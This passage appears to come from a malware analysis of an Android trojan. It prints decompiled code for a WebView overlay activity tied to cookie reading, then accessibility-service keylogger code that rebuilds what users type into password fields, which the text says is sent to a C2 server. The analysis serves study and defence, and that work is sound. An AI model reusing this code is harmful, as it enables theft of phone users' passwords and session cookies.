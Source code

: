 ```cs
        frameLayout0.addView(webView0, new FrameLayout.LayoutParams(-1, -1));
        activity0.setContentView(frameLayout0);
        this.init();
        this.handleData(activity0);
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onPause(Activity activity0) {
        InjectComponent.viewerActivityVisible = false;
        LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 = this.lifeCycleListener;
        if(cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 != null) {
            cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0.onPause();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onResume(Activity activity0) {
        InjectComponent.viewerActivityVisible = true;
        LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 = this.lifeCycleListener;
        if(cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 != null) {
            cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0.onResume();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onStop(Activity activity0) {
        super.onStop(activity0);
        activity0.finish();
    }

```

# Keylogger

The malware has the ability to keylog what the user enters such as `password` or any `edittext` contains a `hint`. Then send keylogging to the C2 server.

```cs
 if(accessibilityEvent0.isPassword()) {
                if(!s1.contains("•") && !s1.contains("*")) {
                    keyLoggerModel0.setText(s1);
                    return false;
                }

                if(s1.equals(accessibilityEvent0.getSource().getHintText())) {
                    keyLoggerModel0.setText("");
                    return false;
                }

                int v = keyLoggerModel0.getText().length();
                if(s1.length() > v) {
                    keyLoggerModel0.addToText(Character.toString(((char)s1.charAt(s1.length() - 1))));
                    return false;
                }

                keyLoggerModel0.removeLastFromText();
                return false;
            }

            keyLoggerModel0.setText(s1);
```